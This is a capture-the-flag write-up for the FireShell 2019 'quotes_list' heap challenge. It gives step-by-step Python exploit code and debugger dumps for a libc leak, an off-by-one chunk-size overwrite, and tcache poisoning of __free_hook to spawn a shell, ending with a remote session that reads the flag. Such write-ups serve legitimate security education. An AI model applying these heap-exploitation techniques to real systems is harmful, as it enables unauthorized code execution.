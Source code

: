 +++
title = "FireShell 2019 - quotes_list"
date = "2019-01-28 06:54:42"
categories = ["pwn", "writeup"]
+++

## downloads
- [binary](/assets/fireshell/quotes_list/quotes_list.zip)
- [libc.so.6](/assets/fireshell/quotes_list/libc.so.6)
- [ld-linux-x86-64.so.2](/assets/fireshell/quotes_list/ld-linux-x86-64.so.2)
- [solve.py](/assets/fireshell/quotes_list/solve.py)

## prep
You'll need to patch elf binary to make it run correctly. Using `patchelf`,
```sh
patchelf --set-interpreter `pwd`/ld-linux-x86-64.so.2
patchelf --set-rpath `pwd`
```

## summary
1. Usual heap exploitation challenge layout, you have `create`, `edit`, `show`, and `delete`.
2. No UAF, pointer set to zero after chunk gets freed. _or is it(?)_
3. Arbritrary off-by-one write in `edit`.
4. for unknown _reason(?)_, `show` uses `strncpy` to a buffer in stack initialized with `alloca(16 * ((chunk_size + 15) / 16 ))` then print it.

## exploit
A brief helper function,
```python
def create(length, content):
    r.sendlineafter('> ', '1')
    r.sendlineafter(': ', length.__str__())
    r.sendafter(': ', content)

def edit(index, content):
    r.sendlineafter('> ', '2')
    r.sendlineafter(': ', index.__str__())
    r.sendafter(': ', content)

def show(index):
    r.sendlineafter('> ', '3')
    r.sendlineafter(': ', index.__str__())
    r.recvuntil(': ')
    return r.recvuntil('\n-----', drop=True)

def delete(index):
    r.sendlineafter('> ', '4')
    r.sendlineafter(': ', index.__str__())
```

### leak libc
The binary uses libc v2.28 which enables `tcache`, a simple trick to leak libc is to allocate a huge chunk that big enough to surpass `smallbins` and `free` it, for some reasons allocating smallbins then free, it will only get your chunk back to tcache free list and we don't want that. Code speak louder than words,
```python
create(0x1000, '0') # _huge_ chunk
create(0x18, '1') # will be used later
create(0x18, '2') # will be used later
create(0x18, '3') # will be used later

# pwndbg> dq $piebase+0x202040
# 0000555555756040     000055555575c250 000055555575d270
# 0000555555756050     000055555575d290 000055555575d2b0
# 0000555555756060     0000000000000000 0000000000000000
# 0000555555756070     0000001800001000 0000001800000018

delete(0)

# pwndbg> dq $piebase+0x202040
# 0000555555756040     0000000000000000 000055555575d270
# 0000555555756050     000055555575d290 000055555575d2b0
# 0000555555756060     0000000000000000 0000000000000000
# 0000555555756070     00000018ffffffff 0000001800000018

# pwndbg> dq 0x000055555575c250
# 000055555575c250     0000000000000000 0000000000001011
# 000055555575c260     0000155555327ca0 0000155555327ca0
#                       ^-- fd populated

# pwndbg> x/gx 0x0000155555327ca0
# 0x155555327ca0 <main_arena+96>: 0x000055555575d2c0

create(0x18, '0')

# pwndbg> dq 0x000055555575c250
# 000055555575c250     0000000000000000 0000000000000021
# 000055555575c260     0000155555328230 00001555553282c0
# 000055555575c270     000055555575c250 0000000000000ff1
# 000055555575c280     0000155555327ca0 0000155555327ca0

# pwndbg> unsortedbin
# unsortedbin
# all: 0x55555575c270 —▸ 0x155555327ca0 (main_arena+96) ◂— 0x55555575c270

libc.address = u64(show(0).ljust(8, '\x00')) - 0x3af230
```

### off-by-one write
after allocate memory with `create`, you can `edit` the buf with exactly one byte larger than actual size. This could lead to corrupt the chunk metadata.
```python
# pwndbg> dq 0x000055555575d260 50
# 000055555575d260     0000000000000ff0 0000000000000020
# 000055555575d270     0000000000000031 0000000000000000
# 000055555575d280     0000000000000000 0000000000000021
# 000055555575d290     0000000000000032 0000000000000000
# 000055555575d2a0     0000000000000000 0000000000000021
# 000055555575d2b0     0000000000000033 0000000000000000
# 000055555575d2c0     0000000000000000 000000000001fd41

edit(1, '\x00' * 0x18 + '\x71') # overlap

# pwndbg> dq 0x000055555575d260 50
# 000055555575d260     0000000000000ff0 0000000000000020
# 000055555575d270     0000000000000000 0000000000000000
# 000055555575d280     0000000000000000 0000000000000071
#                                         ^-- corrupted
# 000055555575d290     0000000000000032 0000000000000000
# 000055555575d2a0     0000000000000000 0000000000000021
# 000055555575d2b0     0000000000000033 0000000000000000
# 000055555575d2c0     0000000000000000 000000000001fd41
```

after corrupting metadata size, we could trick `free` to put this chunk in a larger chunk (0x70) tcache free list.

```python
delete(2)

# pwndbg> dq 0x000055555575d260 50
# 000055555575d260     0000000000000ff0 0000000000000020
# 000055555575d270     0000000000000000 0000000000000000
# 000055555575d280     0000000000000000 0000000000000071
# 000055555575d290     0000000000000000 000055555575c010
# 000055555575d2a0     0000000000000000 0000000000000021

# pwndbg> tcachebins
# tcachebins
# 0x70 [  1]: 0x55555575d290 ◂— 0x0 <--- !!!!
```
By malloc first-fit behaviour, `malloc` with size `(0x68)` will return the freed chunk before where the actual chunk size should be `(0x18)`. Thus, we could achieve complete takeover for the next chunk.
```python
create(0x68, '2')

# pwndbg> dq 0x000055555575d260 50
# 000055555575d260     0000000000000ff0 0000000000000020
# 000055555575d270     0000000000000000 0000000000000000
# 000055555575d280     0000000000000000 0000000000000071
# 000055555575d290     0000000000000032 0000000000000000
# 000055555575d2a0     0000000000000000 0000000000000021
```

After that, it's just a simple poke around in `tcache-poison`ing, overwrite `__free_hook` to `system`, and trigger `free` to call `system`.

```python
delete(3)
edit(2, '\x00' * 0x20 + p64(libc.symbols['__free_hook']))

# pwndbg> tcachebins
# tcachebins
# 0x20 [  1]: 0x55555575d2b0 —▸ 0x1555553298c8 (__free_hook) ◂— 0x0

create(0x18, '/bin/sh\x00') # 3
create(0x18, p64(libc.symbols['system'])) # 4

delete(3) # trigger free('/bin/sh') -> system('/bin/sh')
```

## flag
```
[+] Opening connection to 35.243.188.20 on port 2005: Done
[*] Switching to interactive mode
Timeout!
$ ls
flag.txt
quotes_list
quotes_list.sh
$ cat flag.txt
F#{th3r3_ar3_s0m3_n3ws_c0mm1ng_1nt0_libc-2.29}$
[*] Interrupted
[*] Closed connection to 35.243.188.20 port 2005
```
